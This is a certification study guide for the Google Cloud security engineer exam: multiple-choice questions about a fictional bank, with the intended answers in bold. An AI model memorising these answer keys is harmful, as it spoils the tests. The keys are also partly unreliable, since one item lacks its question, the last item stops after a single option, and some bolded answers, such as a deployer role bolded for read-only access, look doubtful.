



# Professional Cloud Security Engineer Certification Learning Path

# 01 Preparing for Your Professional Cloud Security Engineer Journey 

## Configuring Access Within a Cloud Solution Environment


### Diagnostic questions


1. Cymbal Bank recently discovered service account key misuse in one of the teams during a security audit. As a precaution, going forward you do not want any team in your organization to generate new external service account keys. You also want to restrict every new service account’s usage to its associated Project. What should you do?


- Navigate to Organizational policies in the Google Cloud Console. Select your organization. Select iam.disableServiceAccountKeyCreation. Under Policy Enforcement, select Merge with parent. Click Save. Repeat the process for iam.disableCrossProjectServiceAccountLienRemoval.


- Run the gcloud resource-manager org-policies enable-enforce command with the constraints iam.disableServiceAccountKeyCreation, and iam.disableCrossProjectServiceAccountUsage and the Project IDs you want the constraints to apply to.


- **Navigate to Organizational policies in the Google Cloud Console. Select your organization. Select iam.disableServiceAccountKeyCreation. Customize the applied to property, and set Enforcement to ‘On’. Click Save. Repeat the process for iam.disableCrossProjectServiceAccountUsage.**


- Run the gcloud resource-manager org-policies allow command with the boolean constraints iam.disableServiceAccountKeyCreation and iam.disableCrossProjectServiceAccountUsage with Organization ID.

  

2. Cymbal Bank publishes its APIs through Apigee. Cymbal Bank has recently acquired ABC Corp, which uses a third-party identity provider. You have been tasked with connecting ABC Corp’s identity provider to Apigee for single sign-on (SSO). You need to set up SSO so that Google is the service provider. You also want to monitor and log high-risk activities. Which two choices would you select to enable SSO?

- Use openssl to generate public and private keys. Store the private key in an X.509 certificate, and encrypt using AES or DES for SAML. Sign in to the Google Admin console, and under Security, upload the certificate.

- Review Network mapping results, and assign SAML profiles to required users.

- **Review Network mapping results, and assign SSO profiles to required users.**

- Use openssl to generate a private key. Store the private key in an X.509 certificate, and encrypt using AES or DES for SAML. Sign in to the Google Workspace Admin Console and upload the certificate.

- **Use openssl to generate public and private keys. Store the public key in an X.509 certificate, and encrypt using RSA or DSA for SAML. Sign in to the Google Admin console, and under Security, upload the certificate.**


3. Cymbal Bank has certain default permissions and access for their analyst, finance, and teller teams. These teams are organized into groups that have a set of role-based IAM permissions assigned to them. After a recent acquisition of a small bank, you find that the small bank directly assigns permissions to their employees in IAM. You have been tasked with applying Cymbal Bank’s resource hierarchy to the small bank. Employees will need access to Google Cloud services. What should you do?

- Reset all user permissions in the small bank’s IAM. Use the Directory API in the Google Workspace Admin SDK to create Google Groups. Use a Python script to allocate users to the groups.

- **Reset all user permissions in the small bank’s IAM. Use Cloud Identity to create dynamic groups for each of the bank’s teams. Use the dynamic groups’ metadata field for team type to allocate users to their appropriate group with a Python script.**

- Reset all user permissions in the small bank’s IAM. Use Cloud Identity to create the required Google Groups. Upgrade the Google Groups to Security Groups. Use a Python script to allocate users to the groups.

- Leave all user permissions as-is in the small bank’s IAM. Use the Directory API in the Google Workspace Admin SDK to create Google Groups. Use a Python script to allocate users to the Google Groups.


4. Cymbal Bank’s organizational hierarchy divides the Organization into departments. The Engineering Department has a ‘product team’ folder. This folder contains folders for each of the bank’s products. One folder titled “analytics” contains a Google Cloud Project that contains an App Engine deployment and a Cloud SQL instance.

- Create custom roles for all three user types at the project level. For the team lead, provide all appengine.* and cloudsql.* permissions. For the developer, provide appengine.applications.* and appengine.instances.* permissions. For the code reviewer, provide the appengine.instances.* permissions.

- Assign the basic ‘Editor’ role to the team lead. Create a custom role for the developer. Provide all appengine.* permissions to the developer. Provide the predefined ‘App Engine Code Viewer’ role to the code reviewer. Assign all these permissions at the “analytics” folder level.

- **Assign the basic ‘App Engine Admin’ and ‘Cloud SQL Admin” roles to the team lead. Assign the ‘App Engine Admin’ role to the developer. Assign the ‘App Engine Code Viewer’ role to the code reviewer. Assign all these permissions at the analytics project level.**

- Create custom roles for all three user types at the “analytics” folder level. For the team lead, provide all appengine.* and cloudsql.* permissions. For the developer, provide appengine.applications.* and appengine.instances.* permissions. For the code reviewer, provide the appengine.instances.* permissions.

  

5. You are an administrator for Cymbal Bank’s Mobile Development Team. You want to control how long different users can access the Google Cloud console, the Cloud SDK, and any applications that require user authorization for Google Cloud scopes without having to reauthenticate. More specifically, you want users with elevated privileges (project owners and billing administrators) to reauthenticate more frequently than regular users at the organization level. What should you do?

- Create a custom role for project owners and billing administrators at the organization level in the Google Cloud console. Add the reauthenticationRequired permission to this role. Assign this role to each project owner and billing administrator.

- **In the Admin console, select Google Cloud session control and set a reauthentication policy that requires reauthentication. Choose the reauthentication frequency from the drop-down list.**

- Open all Google Cloud projects that belong to Cymbal Bank’s Mobile Development team. Find each project’s Google Cloud session control setting, and configure a reauthentication policy that requires reauthentication. Choose the reauthentication frequency from the drop-down list.

- Create a custom role for project owners and billing administrators at the organization level in the Google Cloud console. Add the reauthenticationRequired permission to this role. Create a Google Group that contains all billing administrators and project owners. Apply the custom role to the group.

  

6. Cymbal Bank has a team of developers and administrators working on different sets of Google Cloud resources. The Bank’s administrators should be able to access the serial ports on Compute Engine Instances and create service accounts. Developers should only be able to access serial ports. How would you design the organization hierarchy to provide the required access?

- **Deny Serial Port Access and Service Account Creation at the organization level. Create a ‘dev’ folder and set enforced: true for constraints/compute.disableSerialPortAccess and enforced: true for constraints/iam.disableServiceAccountCreation. Create a new ‘admin’ folder inside the ‘dev’ folder, and set enforced: false for constraints/iam.disableServiceAccountCreation. Give developers access to the ‘dev’ folder, and administrators access to the ‘admin’ folder.**

- Deny Serial Port Access and Service Account Creation at the organization level. Create a ‘dev’ folder and set enforced: false for constraints/compute.disableSerialPortAccess. Create a new ‘admin’ folder inside the ‘dev’ folder, and set enforced: false for constraints/iam.disableServiceAccountCreation. Give developers access to the ‘dev’ folder, and administrators access to the ‘admin’ folder.

- Deny Serial Port Access and Service Account Creation at the Organization level. Create an ‘admin’ folder and set enforced: false for constraints/compute.disableSerialPortAccess. Create a new ‘dev’ folder inside the ‘admin’ folder, and set enforced: false for constraints/iam.disableServiceAccountCreation. Give developers access to the ‘dev’ folder, and administrators access to the ‘admin’ folder.

- Allow Serial Port Access and Service Account Creation at the organization level. Create a ‘dev’ folder and set enforced: true for constraints/iam.disableServiceAccountCreation. Create another ‘admin’ folder that inherits from the parent inside the organization node. Give developers access to the ‘dev’ folder, and administrators access to the ‘admin’ folder.

  

7. Cymbal Bank has acquired a non-banking financial company (NBFC). This NBFC uses Active Directory as their central directory on an on-premises Windows Server. You have been tasked with migrating all the NBFC users and employee information to Cloud Identity. What should you do?

- **Use Cloud VPN to connect the on-premises network to your Google Cloud environment. Select an on-premises domain-joined Windows Server. On the domain-joined Windows Server, run Configuration Manager and Google Cloud Directory Sync. Use Cloud VPN’s encrypted channel to transfer users from the on-premises Active Directory to Cloud Identity.**

- Run Configuration Manager on a Compute Engine instance. Copy the resulting configuration file from this machine onto a new Compute Engine instance to keep the production environment separate from the staging environment. Leave the channel unencrypted because you are in a secure Google Cloud environment. Deploy Google Cloud Directory Sync on this new instance. Connect to the on-premises Windows Server environment from the new instance, and migrate users to Cloud Identity.

- Run Microsoft System Center Configuration Manager (SCCM) on a Compute Engine instance. Leave the channel unencrypted because you are in a secure Google Cloud environment. Deploy Google Cloud Directory Sync on the Compute Engine instance. Connect to the on-premises Windows Server environment from the instance, and migrate users to Cloud Identity.

- Select an on-premises domain-joined Windows Server. Run Configuration Manager on the domain-joined Windows Server, and copy the resulting configuration file to a Compute Engine instance. Run Google Cloud Directory Sync on the Compute Engine instance over the internet, and use Cloud VPN to sync users from the on-premises Active Directory to Cloud Identity.

  

8. Cymbal Bank’s organizational hierarchy divides the Organization into departments. The Engineering Department has a ‘product team’ folder. This folder contains folders for each of the bank’s products. Each product folder contains one Google Cloud Project, but more may be added. Each project contains an App Engine deployment. Cymbal Bank has hired a new technical product manager and a new web developer. The technical product manager must be able to interact with and manage all services in projects that roll up to the Engineering Department folder. The web developer needs read-only access to App Engine configurations and settings for a specific product. How should you provision the new employees’ roles into your hierarchy following principles of least privilege?

- Assign the Project Owner role in each individual project to the technical product manager. Assign the App Engine Deployer role in each individual project to the web developer.

- Assign the Project Editor role at the Engineering Department folder level to the technical product manager. Create a Custom Role in the product folder that the web developer needs access to. Add the appengine.versions.create and appengine.versions.delete permissions to that role, and assign it to the web developer.

- **Assign the Project Editor role at the Engineering Department folder level to the technical product manager. Assign the App Engine Deployer role at the specific product’s folder level to the web developer.**

- Assign the Project Editor role in each individual project to the technical product manager. Assign the Project Editor role in each individual project to the web developer.


9. Cymbal Bank is divided into separate departments. Each department is divided into teams. Each team works on a distinct product that requires Google Cloud resources for development. How would you design a Google Cloud organization hierarchy to best match Cymbal Bank’s organization structure and needs?

- Create an Organization node. Under the Organization node, create Department folders. Under each Department, create Product folders. Add Projects to the Product folders.

- Create an Organization node. Under the Organization node, create Department folders. Under each Department, create Product folders. Under each Product, create Teams folders. In the Teams folder, add Projects.

- **Create an Organization node. Under the Organization node, create Department folders. Under each Department, create a Teams folder. Under each Team, create Product folders. Add Projects to the Product folders.**

- Create an Organization node. Under the Organization node, create Department folders. Under each Department, create Teams folders. Add Projects to the Teams folders.

  

10. Cymbal Bank leverages Google Cloud storage services, an on-premises Apache Spark Cluster, and a web application hosted on a third-party cloud. The Spark cluster and web application require limited access to Cloud Storage buckets and a Cloud SQL instance for only a few hours per day. You have been tasked with sharing credentials while minimizing the risk that the credentials will be compromised. What should you do?

- **Create a service account with appropriate permissions. Have the Spark Cluster and the web application authenticate as delegated requests, and share the short-lived service account credential as a JWT.**

- Create a service account with appropriate permissions. Authenticate the Spark Cluster and the web application as direct requests and share the service account key.

- Create a service account with appropriate permissions. Authenticate the Spark Cluster and the web application as a delegated request, and share the service account key.

- Create a service account with appropriate permissions. Have the Spark Cluster and the web application authenticate as a direct request, and share the short-lived service account credentials as XML tokens.

### Knowledge Check


1. Which tool will Cymbal Bank use to synchronize their identities from their on-premise identity management system to Google Cloud?

- Service Accounts

- Cloud Identity

- Active Directory

- **Google Cloud Directory Sync**

  

2. Which feature of Google Cloud will Cymbal Bank use to control the source locations and times that authorized identities will be able to access resources?

- **IAM Conditions**

- Identity-aware Proxy

- Service Accounts

- IAM Roles


## Securing Communications and Establishing Boundary Protection

### Diagnostic questions

1. Cymbal Bank is releasing a new loan management application using a Compute Engine managed instance group. External users will connect to the application using a domain name or IP address protected with TLS 1.2. A load balancer already hosts this application and preserves the source IP address. You are tasked with setting up the SSL certificate for this load balancer. What should you do?

- Create a Google-managed SSL certificate. Attach a global dynamic external IP address to the internal Application Load Balancer. Validate that an existing URL map will route the incoming service to your managed instance group backend. Load your certificate and create an HTTPS proxy routing to your URL map. Create a global forwarding rule that routes incoming requests to the proxy.

- Import a self-managed SSL certificate. Attach a global static external IP address to the external proxy Network Load Balancer. Validate that an existing URL map will route the incoming service to your managed instance group backend. Load your certificate and create a TCP proxy routing to your URL map. Create a global forwarding rule that routes incoming requests to the proxy.

- Import a self-managed SSL certificate. Attach a global static external IP address to the external proxy Network Load Balancer. Validate that an existing URL map will route the incoming service to your managed instance group backend. Load your certificate and create an SSL proxy routing to your URL map. Create a global forwarding rule that routes incoming requests to the proxy.

- **Create a Google-managed SSL certificate. Attach a global static external IP address to the global external Application Load Balancer. Validate that an existing URL map will route the incoming service to your managed instance group backend. Load your certificate and create an HTTPS proxy routing to your URL map. Create a global forwarding rule that routes incoming requests to the proxy.**

2. You have recently joined Cymbal Bank as a cloud engineer. You created a custom VPC network, selecting to use the automatic subnet creation mode and nothing else. The default network still exists in your project. You create a new Linux VM instance and select the custom VPC as the network interface. You try to SSH into your instance, but you are getting a “connection failed” error. What answer best explains why you cannot SSH into the instance?

- **You did not set up any firewall rules on your custom VPC network. While the default VPC comes with a predefined firewall rule that allows SSH traffic, these need to be added to any custom VPCs.**

- You should have used the default network when setting up your instance. While custom networks support instance creation, they should only be used for internal communication.

- You should have deleted the default network. When you have multiple VPCs in your project, Compute Engine can’t allow you to connect because overlapping IP ranges prevent the API from establishing a root connection.

- You should have used custom subnet creation mode. Since the default VPC still exists, automatic mode created subnets in the same regions, which led to overlapping IP addresses.

3. Cymbal Bank has published an API that internal teams will use through the Application Load Balancer. You need to limit the API usage to 200 calls every hour. Any exceeding usage should inform the users that servers are busy. Which gcloud command would you run to throttle the load balancing for the given specification?

- gcloud compute security-policies rules create priority --security-policy sec-policy --src-ip-ranges="" --action=rate-based-ban --rate-limit-threshold-count=200 --rate-limit-threshold-interval-sec=3600 --conform-action=allow --exceed-action=deny-500 --enforce-on-key=IP

- gcloud compute security-policies rules create priority --security-policy sec-policy --src-ip-ranges=source-range --action=throttle --rate-limit-threshold-count=200 --rate-limit-threshold-interval-sec=60 --conform-action=deny --exceed-action=deny-404 --enforce-on-key=HTTP-HEADER

- gcloud compute security-policies rules create priority --security-policy sec-policy --src-ip-ranges=source-range --action=rate-based-ban --rate-limit-threshold-count=200 --rate-limit-threshold-interval-sec=3600 --conform-action=deny --exceed-action=deny-403 --enforce-on-key=HTTP-HEADER

- **gcloud compute security-policies rules create priority --security-policy sec-policy --src-ip-ranges=source-range --action=throttle --rate-limit-threshold-count=200 --rate-limit-threshold-interval-sec=3600 --conform-action=allow --exceed-action=deny-429 --enforce-on-key=HTTP-HEADER**

4. An external audit agency needs to perform a one-time review of Cymbal Bank’s Google Cloud usage. The auditors should be able to access a Default VPC containing BigQuery, Cloud Storage, and Compute Engine instances where all the usage information is stored. You have been tasked with enabling the access from their on-premises environment, which already has a configured VPN. What should you do?

- Use Partner Interconnect. Configure an encrypted tunnel in the auditor's on-premises environment. Use Cloud DNS to create DNS zones and A records for private.googleapis.com.

- **Use a Cloud VPN tunnel. Use Cloud DNS to create DNS zones and records for *.googleapis.com. Set up on-premises routing with Cloud Router. Use Cloud Router custom route advertisements to announce routes for Google Cloud destinations.**

- Use a Cloud VPN tunnel. Use your DNS provider to create DNS zones and records for private.googleapis.com. Connect the DNS provider to your on-premises network. Broadcast the request from the on-premises environment. Use a software-defined firewall to manage incoming and outgoing requests.

- Use Dedicated Interconnect. Configure a VLAN in the auditor's on-premises environment. Use Cloud DNS to create DNS zones and records for restricted.googleapis.com and private.googleapis.com. Set up on-premises routing with Cloud Router. Add custom static routes in the VPC to connect individually to BigQuery, Cloud Storage, and Compute Engine instances.

5. Cymbal Bank’s Customer Details API runs on a Compute Engine instance with only an internal IP address. Cymbal Bank’s new branch is co-located outside the Google Cloud points-of-presence (PoPs) and requires a low-latency way for its on-premises apps to consume the API without exposing the requests to the public internet. Which solution would you recommend?

- Use Carrier Peering. Use a service provider to access their enterprise grade infrastructure to connect to the Google Cloud environment.

- **Use Partner Interconnect. Use a service provider to access their enterprise grade infrastructure to connect to the Google Cloud environment.**

- Use a Content Delivery Network (CDN). Establish direct peering with one of Google’s nearby edge-enabled PoPs.

- Use Dedicated Interconnect. Establish direct peering with one of Google’s nearby edge-enabled PoPs.

6. Your organization has a website running on Compute Engine. This instance only has a private IP address. You need to provide SSH access to an on-premises developer who will debug the website from the authorized on-premises location only. How do you enable this?

- Use the default VPC’s firewall. Open port 22 for TCP protocol using the Google Cloud Console.

- Use SOCKS proxy over SSH. Set up an SSH tunnel to one of the hosts in the network. Create the SOCKS proxy on the client side.

- Set up Cloud VPN. Set up an unencrypted tunnel to one of the hosts in the network. Create outbound or egress firewall rules. Use the private IP address to log in using a gcloud ssh command.

- **Use Identity-Aware Proxy (IAP). Set up IAP TCP forwarding by creating ingress firewall rules on port 22 for TCP using the gcloud command.**

7. Cymbal Bank has designed an application to detect credit card fraud that will analyze sensitive information. The application that’s running on a Compute Engine instance is hosted in a new subnet on an existing VPC. Multiple teams who have access to other VMs in the same VPC must access the VM. You want to configure the access so that unauthorized VMs or users from the internet can’t access the fraud detection VM. What should you do?

- Use target filtering. Create a tag called ‘app’, and assign the tag to both the source and the target. Create a firewall rule to allow all ingress communication on this tag.

- **Use subnet isolation. Create a service account for the fraud detection engine. Create service accounts for each of the teams’ Compute Engine instances that will access the engine. Add a firewall rule using: gcloud compute firewall-rules create ACCESS_FRAUD_ENGINE --network**

- Use target filtering. Create two tags called ‘app’ and ‘data’. Assign the ‘app’ tag to the Compute Engine instance hosting the Fraud Detection App (source), and assign the ‘data’ tag to the other Compute Engine instances (target). Create a firewall rule to allow all ingress communication on this tag.

- Use subnet isolation. Create a service account for the fraud detection VM. Create one service account for all the teams’ Compute Engine instances that will access the fraud detection VM. Create a new firewall rule using:gcloud compute firewall-rules create ACCESS_FRAUD_ENGINE --network

8. Cymbal Bank needs to connect its employee MongoDB database to a new human resources web application on the same network. Both the database and the application are autoscaled with the help of Instance templates. As the Security Administrator and Project Editor, you have been tasked with allowing the application to read port 27017 on the database. What should you do?

- **Create service accounts for the application and database. Create a firewall rule using:gcloud compute firewall-rules create ALLOW_MONGO_DB --network network-name --allow TCP:27017 --source-service-accounts web-application-service-account --target-service-accounts database-service-account**

- Create a user account for the database admin and a service account for the application. Create a firewall rule using:gcloud compute firewall-rules create ALLOW_MONGO_DB --network network-name --allow TCP:27017 --source-service-accounts web-application-service-account --target-service-accounts database-admin-user-account

- Create user accounts for the application and database. Create a firewall rule using:gcloud compute firewall-rules create ALLOW_MONGO_DB --network network-name --deny UDP:27017 --source-service-accounts web-application-user-account --target-service-accounts database-admin-user-account

- Create service accounts for the application and database. Create a firewall rule using:gcloud compute firewall-rules create ALLOW_MONGO_DB --network network-name --allow ICMP:27017 --source-service-accounts web-application-service-account --target-service-accounts database-service-account

9. The data from Cymbal Bank’s loan applicants resides in a shared VPC. A credit analysis team uses a CRM tool hosted in the App Engine standard environment. You need to provide credit analysts with access to this data. You want the charges to be incurred by the credit analysis team. What should you do?

- Add egress firewall rules to allow SSH and/or RDP ports for the App Engine standard environment in the Shared VPC network. Create a client-side connector in the Service Project using the IP range of the target VPC. Verify that the connector is in a READY state. Create an egress rule on the Shared VPC network to allow the connector using Network Tags or IP ranges.

- Add ingress firewall rules to allow NAT and Health Check ranges for App Engine standard environment in the Shared VPC network. Create a server-side connector in the Host Project using the Shared VPC Project ID. Verify that the connector is in a READY state. Create an ingress rule on the Shared VPC network to allow the connector using Network Tags or IP ranges.

- Add egress firewall rules to allow TCP and UDP ports for the App Engine standard environment in the Shared VPC network. Create either a client-side connector in the Service Project or a server-side connector in the Host Project using the IP Range or Project ID of the target VPC. Verify that the connector is in a READY state. Create an egress rule on the Shared VPC network to allow the connector using Network Tags or IP ranges.

- **Add ingress firewall rules to allow NAT and Health Check ranges for the App Engine standard environment in the Shared VPC network. Create a client-side connector in the Service Project using the Shared VPC Project ID. Verify that the connector is in a READY state. Create an ingress rule on the Shared VPC network to allow the connector using Network Tags or IP ranges.**

10. An ecommerce portal uses Google Kubernetes Engine to deploy its recommendation engine in Docker containers. This cluster instance does not have an external IP address. You need to provide internet access to the pods in the Kubernetes cluster. What configuration would you add?

- **Cloud NAT gateway, subnet primary IP address range for nodes, and subnet secondary IP address range for pods and services in the cluster**

- Cloud DNS, subnet primary IP address range for nodes, and subnet secondary IP address range for pods and services in the cluster

- Nginx load balancer, subnet secondary IP address range for nodes, and subnet secondary IP address range for pods and services in the cluster

- Cloud VPN, subnet secondary IP address range for nodes, and subnet secondary IP address range for pods and services in the cluster


### Knowledge Check

1. Which tool will Cymbal Bank use to enforce authentication and authorization for services deployed to Google Cloud?

- Firewall rules

- Google Cloud Armor

- **Identity-Aware proxy**

- Application Load Balancer

2. How will Cymbal Bank enable resources with only internal IP addresses to make requests to the Internet?

- Google private access

- Dedicated Interconnect

- **Cloud NAT**

- Shared VPC


## Ensuring Data Protection

### Diagnostic questions

1. Cymbal Bank has hired a data analyst team to analyze scanned copies of loan applications. Because this is an external team, Cymbal Bank does not want to share the name, gender, phone number, or credit card numbers listed in the scanned copies. You have been tasked with hiding this PII information while minimizing latency. What should you do?

- **Use the Cloud Data Loss Prevention (DLP) API to make redact image requests. Provide your project ID, built-in infoTypes, and the scanned copies when you make the requests.**

- Use the Cloud Vision API to perform optical code recognition (OCR) from scanned images. Redact the text using the Cloud Data Loss Prevention (DLP) API with regular expressions.

- Use the Cloud Vision API to perform text extraction from scanned images. Redact the text using the Cloud Natural Language API with regular expressions.

- Use the Cloud Vision API to perform optical code recognition (OCR) from scanned images. Redact the text using the Cloud Natural Language API with regular expressions.

2. Cymbal Bank uses Google Kubernetes Engine (GKE) to deploy its Docker containers. You want to encrypt the boot disk for a cluster running a custom image so that the key rotation is controlled by the Bank. GKE clusters will also generate up to 1024 randomized characters that will be used with the keys with Docker containers. What steps would you take to apply the encryption settings with a dedicated hardware security layer?

- Create a new key ring using Cloud Key Management Service. Extract this key to a certificate. Use the Google Cloud Console to update the Kubernetes configuration. Validate using MAC digital signatures, and use a startup script to generate random bytes.

- Create a new key ring using Cloud Key Management Service. Extract this key to a certificate. Use the kubectl command to update the Kubernetes configuration. Validate using MAC digital signatures, and use a startup script to generate random bytes.

- **Create a new GKE cluster with customer-managed encryption and HSM enabled. Deploy the containers to this cluster. Delete the old GKE cluster. Use Cloud HSM to generate random bytes and provide an additional layer of security.**

- In the Google Cloud console, navigate to Google Kubernetes Engine. Select your cluster and the boot node inside the cluster. Enable customer-managed encryption. Use Cloud HSM to generate random bytes and provide an additional layer of security.

3. Cymbal Bank stores customer information in a BigQuery table called ‘Information,’ which belongs to the dataset ‘Customers.’ Various departments of Cymbal Bank, including loan, credit card, and trading, access the information table. Although the data source remains the same, each department needs to read and analyze separate customers and customer-attributes. You want a cost-effective way to configure departmental access to BigQuery to provide optimal performance. What should you do?

- Create separate datasets for each department. Create authorized functions in each dataset to perform required aggregations. Write transformed data to new tables for each department separately. Provide the bigquery.dataViewer role to each department’s required users.

- Create an authorized dataset in BigQuery’s Explorer panel. Write Customers’ table metadata into a JSON file, and edit the file to add each department’s Project ID and Dataset ID. Provide the bigquery.user role to each department’s required users.

- Secure data with classification. Open the Data Catalog Taxonomies page in the Google Cloud Console. Create policy tags for required columns and rows. Provide the bigquery.user role to each department’s required users. Provide policy tags access to each department separately.

- **Create separate datasets for each department. Create views for each dataset separately. Authorize these views to access the source dataset. Share the datasets with departments. Provide the bigquery.dataViewer role to each department’s required users.**

4. Cymbal Bank calculates employee incentives on a monthly basis for the sales department and on a quarterly basis for the marketing department. The incentives are released with the next month’s salary. Employee’s performance documents are stored as spreadsheets, which are retained for at least one year for audit. You want to configure the most cost-effective storage for this scenario. What should you do?

- Import the spreadsheets into Cloud Storage and create NoSQL tables. Use App Engine cron jobs to run monthly for Sales and quarterly for Marketing. Use a separate job to delete the data after 1 year.

- **Upload the spreadsheets to Cloud Storage. Select the Nearline storage class for the sales department and Coldline storage for the marketing department. Use object lifecycle management rules to set the storage class to Archival after 365 days. Process the data on BigQuery using jobs that run monthly for Sales and quarterly for Marketing.**

- Import the spreadsheets to Cloud SQL, and create separate tables for Sales and Marketing. For Table Expiration, set 365 days for both tables. Use stored procedures to calculate incentives. Use App Engine cron jobs to run stored procedures monthly for Sales and quarterly for Marketing.

- Import the spreadsheets to BigQuery, and create separate tables for Sales and Marketing. Set table expiry rules to 365 days for both tables. Create jobs scheduled to run every quarter for Marketing and every month for Sales.

5. Cymbal Bank has a Cloud SQL instance that must be shared with an external agency. The agency’s developers will be assigned roles and permissions through a Google Group in Identity and Access Management (IAM). The external agency is on an annual contract and will require a connection string, username, and password to connect to the database. How would you configure the group’s access?

- **Use Secret Manager. Use the duration attribute to set the expiry period to one year. Add the secretmanager.secretAccessor role for the group that contains external developers.**

- Use Secret Manager. Use the resource attribute to set a key-value pair with key as duration and values as expiry period one year from now. Add secretmanager.viewer role for the group that contains external developers.

- Use Secret Manager for the connection string and username, and use Cloud Key Management Service for the password. Use tags to set the expiry period to the timestamp one year from now. Add secretmanager.secretVersionManager and secretmanager.secretAccessor roles for the group that contains external developers.

- Use Cloud Key Management Service. Use the destination IP address and Port attributes to provide access for developers at the external agency. Remove the IAM access after one year and rotate the shared keys. Add cloudkms.cryptoKeyEncryptorDecryptor role for the group that contains the external developers.

6. Cymbal Bank needs to migrate existing loan processing applications to Google Cloud. These applications transform confidential financial information. All the data should be encrypted at all stages, including sharing between sockets and RAM. An integrity test should also be performed every time these instances boot. You need to use Cymbal Bank’s encryption keys to configure the Compute Engine instances. What should you do?

- **Create a Confidential VM instance with Customer-Supplied Encryption Keys. In Cloud Logging, collect all logs for sevLaunchAttestationReportEvent.**

- Create a Confidential VM instance with Customer-Managed Encryption Keys. In Cloud Logging, collect all logs for earlyBootReportEvent.

- Create a Shielded VM instance with Customer-Managed Encryption Keys. In Cloud Logging, collect all logs for sevLaunchAttestationReportEvent.

- Create a Shielded VM instance with Customer-Supplied Encryption Keys. In Cloud Logging, collect all logs for earlyBootReportEvent.

7. Cymbal Bank needs to statistically predict the days customers delay the payments for loan repayments and credit card repayments. Cymbal Bank does not want to share the exact dates a customer has defaulted or made a payment with data analysts. Additionally, you need to hide the customer name and the customer type, which could be corporate or retail. How do you provide the appropriate information to the data analysts?

- Generalize all dates to year and month with bucketing. Use the built-in infoType for customer name. Use a custom infoType for customer type with a custom dictionary.

- **Generalize all dates to year and month with date shifting. Use a predefined infoType for customer name. Use a custom infoType for customer type with a custom dictionary.**

- Generalize all dates to year and month with date shifting. Use a predefined infoType for customer name. Use a custom infoType for customer type with regular expression.

- Generalize all dates to year and month with bucketing. Use the built-in infoType for customer name. Use a custom infoType for customer type with regular expression.

8. You are tasked with developing an AI system on Google Cloud for a telecommunications business. This AI system will conduct sentiment analysis on conversations agents have with customers, and provide conversational recommendations to improve customer satisfaction in the future. What AI/ML-specific security controls do you need to plan for when developing this system?

- **AI systems are more interconnected than non-AI systems. Prepare for new attack vectors, as attackers can exploit vulnerabilities in one system to attack another.**

- Leverage an AI model-specific threat detection scanner. Threats between AI systems and non-AI systems have very little in common.

- Deploy your AI solution using managed instance groups (MIGs). These have baked in security controls specific to running AI workloads.

- Select Google Cloud AI services that leverage a PaaS model. These are the only ones that can guarantee a secure-by-design foundation.

9. You're building a machine learning model on Google Cloud. You're choosing between two options: managing the infrastructure yourself (IaaS) or using Google's managed services (PaaS). To ensure the best security posture for both the model and its data, which TWO factors should you prioritize when defining security requirements for each hosting option?

- **Granular access controls and permissions**

- Compliance with internal security policies

- **Data location and residency restrictions**

- Network traffic inspection and intrusion detection

- Physical server hardening and security patches

10. You are building an AI model on Google Cloud to analyze customer data and predict purchase behavior. This model will have access to sensitive information like purchase history and demographics. To protect this data and prevent misuse of the model, what THREE security controls are most important to implement?

- Store all model training data in BigQuery with public access for transparency.

- Configure IAM roles to grant full access to the model for all Google Cloud users.

- **Monitor the model's performance for anomalies and biases, then manually intervene if needed.**

- **Enable Google Cloud Armor on your deployed model to block malicious requests.**

- **Deploy the model in a region with the highest data security standards.**


### Knowledge Check

1. What feature will allow Cymbal Bank to delete or change the storage class of objects in Cloud Storage buckets?                  

- Rotation periods              
- Retention policies              
- **Lifecycle management rules**              
-  Object versioning

2. Which tool will Cymbal Bank use to scan for, detect, and optionally transform sensitive data to prevent exposure?

- **Sensitive Data Protection**
- Secret Manager
- Google Cloud Armor
- VPC service controls


## Managing Operations

### Diagnostic questions

1. The loan application from Cymbal Bank’s lending department collects credit reports that contain credit payment information from customers. According to bank policy, the PDF reports are stored for six months in Cloud Storage, and access logs for the reports are stored for three years. You need to configure a cost-effective storage solution for the access logs. What should you do?

- Set up a logging export dataset in BigQuery to collect data from Cloud Logging and the Security Command Center. Create table expiry rules to delete logs after three years.

- **Set up a logging export bucket in Cloud Storage to collect data from Cloud Audit Logs. Configure object lifecycle management rules to delete logs after three years.**

- Set up a logging export dataset in BigQuery to collect data from Cloud Logging and Cloud Monitoring. Create table expiry rules to delete logs after three years.

- Set up a logging export bucket in Cloud Storage to collect data from the Security Command Center. Configure object lifecycle management rules to delete logs after three years.

2. Cymbal Bank uses Docker containers to interact with APIs for its personal banking application. These APIs are under PCI-DSS compliance. The Kubernetes environment running the containers will not have internet access to download required packages. How would you automate the pipeline that is building these containers?

- Create a Dockerfile with container definition and cloudbuild.yaml file. Use Cloud Build to build the image from Dockerfile. Upload the built image to a Google Container registry and Dockerfile to a Git repository. In the cloudbuild.yaml template, include attributes to tag the Git repository path with a Google Kubernetes Engine cluster. Create a trigger in Cloud Build to automate the deployment using the Git repository.

